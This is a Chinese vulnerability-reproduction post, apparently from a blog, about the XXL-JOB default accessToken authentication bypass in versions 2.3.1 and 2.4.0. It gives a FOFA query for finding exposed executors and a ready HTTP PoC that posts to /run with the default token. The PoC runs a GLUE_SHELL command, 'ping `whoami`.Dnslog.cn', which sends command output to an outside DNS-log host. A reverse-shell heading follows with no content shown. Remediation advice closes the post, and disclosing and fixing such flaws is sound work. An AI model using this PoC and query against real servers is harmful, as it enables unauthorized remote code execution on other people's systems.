

# XXL-JOB 默认 accessToken 身份绕过漏洞复现

### 0x01 产品简介

  [XXL-JOB](https://so.csdn.net/so/search?q=XXL-JOB&spm=1001.2101.3001.7020) 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

### 0x02 漏洞概述

     XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是[随机生成](https://so.csdn.net/so/search?q=%E9%9A%8F%E6%9C%BA%E7%94%9F%E6%88%90&spm=1001.2101.3001.7020)的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

XXL-JOB之前版本accessToken的值都为空，2.3.1后才出现默认值，如下：



### 0x03 影响范围

     xxl-job-2.3.1、2.4.0版本

### 0x04 复现环境

FOFA："invalid request, HttpMethod not support" && port="9999"


### 0x05 漏洞复现 

PoC

```cobol
POST /run HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default token
Upgrade-Insecure-Requests: 1


{
"jobId": 3,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "ping `whoami`.Dnslog.cn",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}
```

PS：每执行一次就需要更换请求体中jobId的值


**反弹shell**


### 0x06 修复建议

**官方修复方案**：

修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：  
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89

使用accessToken时设置强accessToken或随机accessToken 。

**临时修复方案：**  
使用防护类设备对相关资产进行防护；  
避免将 XXL-JOB 的执行器暴露在互联网。
